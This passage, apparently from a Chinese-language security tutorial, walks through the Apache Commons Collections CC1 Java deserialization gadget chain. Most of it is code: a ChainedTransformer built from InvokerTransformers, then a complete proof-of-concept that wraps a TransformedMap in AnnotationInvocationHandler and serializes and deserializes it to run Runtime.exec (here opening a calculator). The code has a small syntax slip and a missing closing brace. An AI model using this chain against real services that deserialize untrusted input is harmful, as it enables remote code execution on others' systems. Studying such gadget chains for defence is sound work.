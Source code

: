 我们发现对于前三个赋值语句，本质上都是前一个的输出作为后一个Transformer的transform函数的传参，刚好满足ChainedTransformer的特点，因此我们可以变换为：

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(
  new Transformer[]{
  new ConstantTransformer(Runtime.class),
  new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},new Object[ {"getRuntime",null}), 
  new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
  new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"})});
```

因此最终POC为：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class cc1 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException {
        ChainedTransformer chainedTransformer = new ChainedTransformer(
            new Transformer[]{new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},
            new Object[]{"getRuntime",null}), new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"})});
        HashMap<Object, Object> transformerHashMap = new HashMap<>();
        transformerHashMap.put("value",1);
        Map<Object, Object> transformedmap = TransformedMap.decorate(transformerHashMap, null, chainedTransformer);
        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object anno = constructor.newInstance(Retention.class,transformedmap);
        serialize(anno);
        unserialize();
    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(Files.newOutputStream(Paths.get("ser.bin")));
        oos.writeObject(obj);
    }

    public static Object unserialize() throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(Files.newInputStream(Paths.get("ser.bin")));
        Object obj = ois.readObject();
        return obj;
    }
```